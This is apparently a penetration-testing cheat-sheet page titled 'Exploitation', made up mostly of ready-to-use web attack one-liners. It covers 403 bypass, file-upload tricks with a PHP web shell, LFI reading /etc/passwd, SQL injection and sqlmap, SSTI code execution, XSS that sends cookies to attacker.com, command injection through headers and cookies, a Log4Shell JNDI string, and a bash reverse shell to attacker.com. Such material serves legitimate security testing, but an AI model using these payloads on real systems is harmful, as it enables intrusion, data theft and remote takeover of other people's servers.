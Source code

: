 ```yaml
---
title: "Exploitation"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bypass, exploitation, xargs, payload, bash, wget, 403-bypass, file-upload, rce, lfi, ssti, sqlmap, xss, curl, ffuf, waf-bypass]
order: 2
---
```


After enumeration and reconnaissance, exploitation is where actual access or data extraction begins. This section contains practical exploitation tactics and one-liners used in real-world assessments.

## 🔓 403 Forbidden Bypass

```bash
wget https://raw.githubusercontent.com/Dheerajmadhukar/4-ZERO-3/refs/heads/main/403-bypass.sh
xargs -a 403 -I {} -n 1 ~/403-bypass.sh -u {} --exploit /DirectoryOrFile
cat 403_bypasses.out | grep PAYLOAD | awk '{for (i=5; i<=NF; i++) printf "%s ", $i; printf "\n"}'
```

### Additional Payloads (Manual Testing)
```bash
curl -X HEAD https://target.com/secret/
curl https://target.com/secret/.%2e/
curl -H "X-Original-URL: /admin" https://target.com/
curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/
```

## 📂 File Upload Bypass & Web Shells

### Common Upload Bypass Tricks
```bash
# Double extensions
file.php.jpg

# Null byte (if backend is vulnerable)
file.php%00.jpg

# Content-Type spoofing
curl -F "file=@shell.php;type=image/jpeg" https://target.com/upload
```

### PHP Shell Payload (Basic)
```php
<?php system($_GET['cmd']); ?>
```

Access via:
```bash
curl https://target.com/uploads/shell.php?cmd=id
```

## 💥 Remote Code Execution (RCE)

### RCE via `curl`
```bash
curl -X POST https://target.com/endpoint -d "input=|id"
```

### RCE via headers (Log4Shell-style)
```bash
curl https://target.com -H 'User-Agent: ${jndi:ldap://attacker.com/x}'
```

## 📜 Local File Inclusion (LFI)

### Testing LFI Paths
```bash
curl https://target.com/index.php?page=../../../../etc/passwd
curl https://target.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

### Wrappers & Payloads
```bash
curl https://target.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOz8=  # Executes base64-encoded PHP
```

## 🧮 SQL Injection

### Basic Testing (Manual)
```bash
curl "https://target.com/item.php?id=1'"
curl "https://target.com/item.php?id=1--+"
curl "https://target.com/item.php?id=1 OR 1=1"
```

### Automated
```bash
sqlmap -u "https://target.com/item.php?id=1" --batch --risk=3 --level=5
```

## 🔁 Server-Side Template Injection (SSTI)

Testing for SSTI

{% raw %}
```bash
curl https://target.com/page?name={{7*7}}
curl https://target.com/page?name=<%= 7 * 7 %>
```
{% endraw %}



### Exploitation

{% raw %}
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
{% endraw %}


## 💉 Cross-Site Scripting (XSS)

### Manual Payloads
```html
"><script>alert(1)</script>
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
```

### Testing with `dalfox`
```bash
dalfox url https://target.com/search?q=test
```

## ⚙️ Command Execution via Common Injection Points

### Header Injection
```bash
curl -H "Host: example.com; curl http://attacker.com" https://target.com
```

### Cookie Injection
```bash
curl -H "Cookie: SESSIONID=;curl http://attacker.com" https://target.com
```

## 📸 Screenshot After Exploitation

```bash
aquatone -out screenshots -ports large < alivesubdomains.txt
```

## ✅ Post-Exploitation Tips

- Always chain access: Upload shell → Get RCE → Run privilege escalation scripts
- Enumerate for crontabs, SUID, and passwords in configs
- Setup reverse shell listeners when working with limited environments

```bash
nc -lvnp 4444
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```